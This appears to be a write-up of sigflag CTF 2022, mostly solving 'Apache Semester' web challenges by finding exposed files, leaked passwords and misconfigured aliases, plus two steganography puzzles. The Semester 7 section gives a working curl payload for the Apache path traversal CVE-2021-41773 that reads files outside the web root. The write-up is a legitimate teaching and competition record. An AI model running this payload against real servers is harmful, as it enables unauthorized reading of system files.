

# sigflag CTF 2022

## Hardware

## Reversing

## PWN

## Crypto

## Web

### Apache Semester 1

we have to find all hidden exam questions. the first one is linked in the HTML and not hard to find:

```
<h1>1 Semester Exam Questions</h1>

<a href="questions.txt">questions.txt</a>
```

```
http://game.sigflag.at:3071/questions.txt
```

### Apache Semester 2

the second set of questions can be accessed by clicking on the link in the DevTools, bypassing the script.

```
<h1>2 Semester Exam Questions</h1>

<a href="harder-questions.txt" onclick="alert('You are not supposed to access this!'); return false;">Questions</a>
```

```
http://game.sigflag.at:3072/harder-questions.txt
```


### Apache Semester 3

the third set of questions can be accessed only with authentication at `http://game.sigflag.at:3073/intermediate-questions.txt`.

luckily, the professor left us the passwords `http://game.sigflag.at:3073/passwords.txt`:

```
Username: professor
Password: ThisIsMySuperSecurePassword

Note to self: Change this every 24 hours
File last edited: 21.09.2005
```


### Apache Semester 4

`https://game.sigflag.at:3084/exam/.htaccess`:

```
# This file is not accessible for visitors.
# Except you mess up the configuration of course...

AuthUserFile /usr/local/apache2/htdocs/.htpasswd
AuthType Basic
AuthName "4 Semester Exam"
Require valid-user
```

`https://game.sigflag.at:3084/.htpasswd`:

```
# professor:PlainTextPasswordsAreToBeAvoided
professor:$apr1$r7moi2dx$v4ty7TUbdmJuR2Ha0zWLt1
```

### Apache Semester 5

This is the hint we have:

```
<Directory />
  Require all granted
  Options +Indexes
</Directory>

Alias /admin /
```

```
http://game.sigflag.at:3075/admin/opt/well_hidden_questions.txt
```

### Apache Semester 6

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /exam</title>
 </head>
 <body>
<h1>Index of /exam</h1>
<ul><li><a href="/"> Parent Directory</a></li>
<li><a href="1st_castle.txt"> 1st_castle.txt</a></li>
<li><a href="another_castle.txt"> another_castle.txt</a></li>
<li><a href="linear_algebra.txt"> linear_algebra.txt</a></li>
<li><a href="portal.txt"> portal.txt</a></li>
</ul>
</body></html>
```

The questions could be found at `http://game.sigflag.at:3076/exam/questions.txt`, without any password.

### Apache Semester 7

the hint given was `CVE-2021-41773`

```bash
curl "https://game.sigflag.at:3087/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/home/bpfh/flag.txt" --insecure --path-as-is  
```

### A1

### A2

### A3

### A4

### A5

### A6

### A7

### A8

### A9

### A10

## Misc

## Stego

### Mysterious Git

get the dates `git log --pretty=format:"%ad" | cat` and use the hours/minutes as coordinates in a 60x60 image:

```js
const input = `Sat Jan 1 02:45:00 2000 +0100
Sat Jan 1 02:41:00 2000 +0100
...
Sat Jan 1 15:01:00 2000 +0100`;

const result = [];
for (let i = 0; i < 60; ++i) {
  result[i] = [...new Array(60)].fill(" ");
}

const times = input
  .replace(/Sat Jan 1 /gi, "")
  .replace(/:00 2000 \+0100/gi, "")
  .split("\n");

for (const time of times) {
  const [hour, minute] = time.split(":").map((t) => +t);
  result[hour][minute] = "■";
}

console.log(
  result
    .reverse()
    .map((a) => a.join(""))
    .join("\n")
);
```

```
 ■■■■  ■■■   ■■■     ■          ■    ■
■       ■   ■   ■   ■    ■■■   ■■    ■         ■■■
 ■■■    ■   ■      ■    ■   ■   ■   ■■■       ■   ■
    ■   ■   ■  ■■   ■   ■   ■   ■    ■   ■■■  ■   ■
    ■   ■   ■   ■   ■    ■■■■   ■    ■         ■■■■
■■■■   ■■■   ■■■■    ■      ■  ■■■   ■■           ■
                         ■■■                   ■■■

                          ■      ■           ■
■  ■      ■       ■■■    ■ ■    ■ ■   ■       ■
■  ■      ■       ■  ■  ■   ■  ■   ■  ■        ■
■  ■   ■■■■  ■■■  ■  ■  ■   ■  ■   ■  ■■■■    ■
■  ■  ■   ■       ■  ■   ■ ■    ■ ■   ■   ■   ■
 ■■■   ■■■■       ■  ■    ■      ■    ■■■■   ■
```

### Pixel Castle

if you assign the dark squares of the poster `1` and the light squares `0`, then this binary message translates to `The challenge is in another castle!`



## Forensic

## AI
